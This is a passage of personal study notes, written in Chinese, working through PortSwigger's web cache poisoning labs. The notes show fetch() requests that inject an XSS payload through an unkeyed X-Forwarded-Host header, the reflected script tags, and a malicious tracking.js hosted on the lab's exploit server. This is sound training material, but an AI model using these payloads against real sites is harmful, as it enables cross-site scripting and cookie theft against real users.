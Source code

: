 ```yaml
---
title: Web cache poisoning
description: Web cache poisoning
last_update:
  date: "2025-09-21T08:00:00+08:00"
---
```


## Lab: Web cache poisoning with an unkeyed header

| Dimension | Description                                                                                                                                               |
| --------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws#using-web-cache-poisoning-to-exploit-unsafe-handling-of-resource-imports |
| Lab       | https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header                           |

嘗試

```js
fetch("https://0ac3001e047db9fd80a4039d000800c1.web-security-academy.net/", {
  headers: {
    "X-Forwarded-Host": "123",
  },
});
```

看到

```html
<script type="text/javascript" src="//123/resources/js/tracking.js"></script>
```

嘗試

```js
fetch("https://0ac3001e047db9fd80a4039d000800c1.web-security-academy.net/", {
  headers: {
    "X-Forwarded-Host": `"></script><script>alert(document.cookie);const hello = "`,
  },
});
```

看到

```html
<script type="text/javascript" src="//"></script>
<script>
  alert(document.cookie);const hello = "/resources/js/tracking.js">
</script>
```

我以為這樣就結束了，不過這題有 exploit-server，所以解法可能要再想一下(?)

後來改成在 exploit-server 構造

```
/resources/js/tracking.js
HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
alert(document.cookie)
```

之後觸發

```js
fetch("https://0ac3001e047db9fd80a4039d000800c1.web-security-academy.net/", {
  headers: {
    "X-Forwarded-Host": `exploit-0a3100870464b98f8009020901be00c0.exploit-server.net`,
  },
});
```

然後看 Access log，突然就通關了(?)不太懂這題為啥要 exploit-server，單純 XSS Payload 就可以達成 Web cache poisoning 了呀(?)

後來回頭看 Solution，發現我忘記了最重要的事情

```
11. Send your malicious request. Keep replaying the request until you see your exploit server URL being reflected in the response and X-Cache: hit in the headers.
```

所以 Web cache poisoning 也要剛好搭配 cache 過期的時候，我確實一開始沒想到這個

## Lab: Web cache poisoning with an unkeyed cookie

| Dimension | Description                                                                                                                                           |
| --------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws#using-web-cache-poisoning-to-exploit-cookie-handling-vulnerabilities |
| Lab       | https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-cookie                       |

## 參考資料

- https://portswigger.net/web-security/web-cache-poisoning
- https://portswigger.net/web-security/all-labs#web-cache-poisoning
